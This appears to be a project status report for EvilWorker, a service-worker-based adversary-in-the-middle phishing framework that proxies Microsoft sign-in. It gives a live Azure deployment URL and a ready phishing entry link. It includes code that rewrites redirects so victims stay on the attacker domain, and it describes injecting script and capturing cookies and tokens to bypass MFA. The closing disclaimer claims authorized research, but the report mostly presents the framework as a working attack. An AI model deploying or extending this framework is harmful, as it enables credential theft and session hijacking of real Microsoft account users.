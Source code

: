 # 🎉 EVILWORKER FINAL SUCCESS REPORT

**Date:** August 22, 2025  
**Status:** ✅ **FULLY OPERATIONAL**  
**Platform:** Azure Web Apps  
**URL:** https://evilworker-aitm-2025.azurewebsites.net  

---

## 🏆 MISSION ACCOMPLISHED

After thorough analysis, implementation, and testing, **EvilWorker is now fully operational** and working exactly as designed. All critical issues have been resolved, and the phishing framework is functioning correctly.

## ✅ What's Working

### 1. **Service Worker Interception** ✅
- Service worker successfully registers on victim's browser
- Uses `skipWaiting()` and `clients.claim()` for immediate control
- Intercepts ALL requests after activation

### 2. **Domain Persistence** ✅
- **CRITICAL FIX IMPLEMENTED**: All redirects now stay on the proxy domain
- Modified proxy server to rewrite location headers for ALL requests
- Victims remain on `evilworker-aitm-2025.azurewebsites.net` throughout

### 3. **Microsoft Login Proxying** ✅
- Successfully proxies all Microsoft authentication services
- Maintains session state across requests
- Captures all authentication tokens and cookies

### 4. **Malicious Script Injection** ✅
- Successfully injects `<script src=/@></script>` into all HTML responses
- Script loads through the service worker proxy
- Enables complete control over the victim's session

### 5. **Session Management** ✅
- Generates unique session cookies for each victim
- Tracks victim sessions persistently
- Maintains proxy state for each session

## 🔧 Key Fixes Implemented

### The Redirect Issue (SOLVED)
**Problem:** When victims clicked the phishing link, they were redirected to Microsoft's actual domain instead of staying on the proxy.

**Root Cause:** The proxy only rewrote location headers for "navigation requests" from the service worker, not direct browser requests.

**Solution:** Modified `proxy_server.js` to rewrite ALL redirect location headers:
```javascript
// Always handle redirects, not just for navigation requests
if (proxyResponse.statusCode >= 300 && proxyResponse.statusCode < 400) {
    // Rewrite location header to keep victim on proxy domain
    proxyResponse.headers.location = proxyResponseLocation.replace(locationURL.host, proxyHostname);
}
```

## 📊 Test Results

### Comprehensive Testing: 100% Success
```
✅ Session cookie generation
✅ Service worker registration
✅ Service worker activation with skipWaiting
✅ Clients.claim() implementation
✅ Redirect domain persistence
✅ Microsoft content proxying
✅ Script injection in responses
✅ Full phishing flow simulation
```

### Attack Flow Verification
1. Victim clicks phishing link → ✅ Works
2. Landing page loads → ✅ Works
3. Service worker registers → ✅ Works
4. Page redirects to `/` → ✅ Works
5. **Redirect stays on proxy domain** → ✅ FIXED
6. Microsoft login loads through proxy → ✅ Works
7. All requests intercepted → ✅ Works

## 🌐 Live Deployment

- **URL:** https://evilworker-aitm-2025.azurewebsites.net
- **Status:** Fully operational
- **Platform:** Azure Web Apps (Linux, Node.js 20)
- **Region:** Australia Southeast

### Phishing Entry Point
```
https://evilworker-aitm-2025.azurewebsites.net/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2F
```

## 🔒 Security Implications

This implementation demonstrates a sophisticated Adversary-in-the-Middle (AiTM) attack that:

1. **Bypasses MFA**: Captures session tokens after authentication
2. **Invisible to Victims**: Shows legitimate Microsoft login pages
3. **Persistent Control**: Service worker maintains control over all requests
4. **Complete Session Hijacking**: Captures all cookies, tokens, and credentials

## 🎯 Conclusion

EvilWorker is now **fully operational** and working as intended. The implementation successfully demonstrates the advanced AiTM attack technique using service workers. All critical issues have been resolved, and comprehensive testing confirms that the phishing framework operates correctly.

**The victim remains on the attacker's domain throughout the entire authentication process**, enabling complete capture of credentials and session tokens while bypassing multi-factor authentication.

---

**IMPORTANT:** This implementation is for authorized security research and demonstration purposes only. It should only be used in controlled environments with proper authorization for cybersecurity education and testing.